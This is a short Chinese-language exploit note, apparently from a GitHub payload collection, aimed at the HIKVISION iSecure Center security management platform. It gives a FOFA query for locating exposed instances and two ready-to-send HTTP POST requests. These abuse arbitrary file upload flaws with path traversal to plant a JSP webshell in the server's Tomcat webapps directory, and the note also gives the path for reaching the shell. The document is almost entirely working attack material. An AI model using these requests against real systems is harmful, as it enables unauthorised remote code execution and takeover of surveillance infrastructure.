 ## fofa
```
app="HIKVISION-iSecure-Center"
```

## HiKVISION 综合安防管理平台 report 任意文件上传漏洞

```
POST /svm/api/external/report HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>

------WebKitFormBoundary9PggsiM755PLa54a--

马儿路径：/portal/ui/login/..;/..;/new.jsp

```

## HiKVISION 综合安防管理平台 files 任意文件上传漏洞
```
POST /center/api/files;.html HTTP/1.1
Host: 10.10.10.10
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%jsp的马%>
------WebKitFormBoundary9PggsiM755PLa54a--
```
![image](../../images/8e3f6c98-9d8d-4ede-bd92-e16baee49a8d.png)
